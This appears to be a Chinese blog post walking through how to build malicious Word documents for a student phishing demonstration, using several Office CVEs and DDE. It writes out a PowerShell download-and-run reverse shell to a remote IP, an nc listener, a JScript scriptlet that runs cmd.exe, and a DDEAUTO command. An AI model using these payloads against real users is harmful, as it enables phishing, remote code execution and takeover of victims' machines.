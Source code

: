 新的一年迎新又开始啦，回想一年前这个时候的自己，算是有那么一丢丢的进步了吧。一年前的时候，貌似php都不会2333，浏览器的开发者工具都不晓得，
貌似就会搭一个wifi，hahah，扎心了，新的一年努力学习吧骚年！！！
这次迎新让同学们见识下钓鱼邮件是什么样子的，主要放的是word文档，也可以整理下office这两年爆出的漏洞，虽然说过不了360的吧，但是演示起来很酷的呀～

## CVE-2017-11882
其实复现起来都很好说，github上都给了生成文件的脚本了 [链接](https://github.com/unamer/CVE-2017-11882)
首先为了实际钓鱼中应用，先弹个shell再说，找到了两种方式，一种是powershell 反弹一句话，另一种是直接写入shellcode运行，先看第一种
powershell一句话反弹shell
```
powershell IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1'); powercat -c 1.1.1.1 -p 9999 -e cmd
```
[参考链接](https://www.anquanke.com/post/id/99793)

然后利用脚本构造恶意文件

![](https://raw.githubusercontent.com/0linlin0/Records/master/images/81.png)

kali上nc监听端口等待连接 ````nc -lvp 9999````
目标打开恶意word文档后 shell反弹回来

![](https://raw.githubusercontent.com/0linlin0/Records/master/images/82.png)

第二种方式先用msfvenom生成shellcode

![](https://raw.githubusercontent.com/0linlin0/Records/master/images/83.png)

然后利用脚本生成恶意word文档

![](https://raw.githubusercontent.com/0linlin0/Records/master/images/84.png)

目标打开文档后msf上线

![](https://raw.githubusercontent.com/0linlin0/Records/master/images/85.png)

不过后来考虑了下，同学们应该get不到上面操作的含义，所以直接来个简单直接的办法

````python a.py -c "cmd.exe /c start ssText3d.scr /s" -o 1.doc````
同学们打开恶意文档后就会出现如下文字

![](https://raw.githubusercontent.com/0linlin0/Records/master/images/86.png)

## CVE-2017-8570

[Github脚本链接](https://github.com/rxwx/CVE-2017-8570)

实现跳出文字的效果，这里要注意一下，先要修改calc.sct文件

```
<?XML version="1.0"?>
<scriptlet>

<registration
    description="fjzmpcjvqp"
    progid="fjzmpcjvqp"
    version="1.00"
    classid="{204774CF-D251-4F02-855B-2BE70585184B}"
    remotable="true"
	>
</registration>

<script language="JScript">
<![CDATA[

		var r = new ActiveXObject("WScript.Shell").Run("cmd.exe /c start ssText3d.scr /s");
	
	
]]>
</script>

</scriptlet>
```
然后利用脚本生成恶意文件

![](https://raw.githubusercontent.com/0linlin0/Records/master/images/87.png)

这个是远程下载文件calc.sct修改方式

![](https://raw.githubusercontent.com/0linlin0/Records/master/images/88.jpg)

没有尝试powershell一句话，应该可以的吧

## CVE-2018-0802

这个是对CVE-2017-11882补丁的一个绕过 github脚本很详细了 [链接](https://github.com/rxwx/CVE-2018-0802)

## DDT
这个用不到office宏 复现很简单

![](https://raw.githubusercontent.com/0linlin0/Records/master/images/89.png)

改成````DDEAUTO C:\\windows\\system32\\cmd.exe "/c start ssText3d.scr /s"````

但是应用的时候要目标点击”是“才行

![](https://raw.githubusercontent.com/0linlin0/Records/master/images/810.png)

![](https://raw.githubusercontent.com/0linlin0/Records/master/images/811.png)

## CVE-2018-8174

这个直接就有msf的脚本呀 放上链接 [链接](https://github.com/0x09AL/CVE-2018-8174-msf)

but这些实际当中还能用嚒，可能会碰上没装杀软的吧hahaha......
